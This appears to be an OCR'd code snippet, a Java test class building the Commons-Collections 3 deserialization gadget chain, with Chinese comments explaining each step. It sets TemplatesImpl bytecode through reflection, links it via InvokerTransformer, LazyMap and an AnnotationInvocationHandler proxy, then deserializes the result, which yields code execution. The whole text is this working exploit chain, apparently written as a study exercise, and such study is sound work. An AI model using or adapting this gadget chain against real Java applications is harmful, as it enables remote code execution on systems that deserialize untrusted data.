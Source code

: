 ```bash
import java.util.HashMap;
import java.util.Map;

public class CC3Test {
    public static void main(String[] args) throws Exception{

    TemplatesImpl templates = new TemplatesImpl();
    //_name赋值，否则代码return中止
    Class tc = templates.getClass();
    Field nameField = tc.getDeclaredField("_name");
    nameField.setAccessible(true);
    nameField.set(templates,"aaa");
    //private byte[][] _bytecodes = null;如果为null，报出异常；
    //同时满足这个loader.defineClass(_bytecodes[i]);
    //Class defineClass(final byte[] b) {
    //            return defineClass(null, b, 0, b.length);
    //        }
    Field bytecodeField = tc.getDeclaredField("_bytecodes");
    bytecodeField.setAccessible(true);
    //一维数组满足defineClass参数从而命令执行
    byte[] code = Files.readAllBytes(Paths.get("D://Tomcat/CC/target/classes/EXP/Demo.class"));
    //二维数组满足：
           // private byte[][] _bytecodes = null;如果为null，报出异常；
           //同时满足这个loader.defineClass(_bytecodes[i]);
    byte[][] codes = {code};
    bytecodeField.set(templates,codes);
//    避免_tfactory 为空指针而报错
//    TemplatesImpl.TransletClassLoader loader = (TemplatesImpl.TransletClassLoader)
//            AccessController.doPrivileged(new PrivilegedAction() {
//                public Object run() {
//                    return new TemplatesImpl.TransletClassLoader(ObjectFactory.findClassLoader(),_tfactory.getExternalExtensionsMap());
//                }
//            });
    Field tfactoryField = tc.getDeclaredField("_tfactory");
    tfactoryField.setAccessible(true);
    tfactoryField.set(templates,new TransformerFactoryImpl());

//    templates.newTransformer();
    Transformer[] Transformers = new Transformer[]{
            new ConstantTransformer(templates),
            new InvokerTransformer("newTransformer",null,null)
    };
    ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);
//        chainedTransformer.transform(1);
    HashMap<Object,Object> map = new HashMap<>();
    Map<Object,Object> Lazymap = LazyMap.decorate(map,chainedTransformer);


    Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class,Map.class);
    annotationInvocationhdlConstructor.setAccessible(true);
    InvocationHandler h = (InvocationHandler) annotationInvocationhdlConstructor.newInstance(Target.class,Lazymap);
//动态代理
    Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},h);
    Object o = annotationInvocationhdlConstructor.newInstance(Override.class,mapProxy);

//    serialize(o);
    unserialize("ser.bin");
    }
```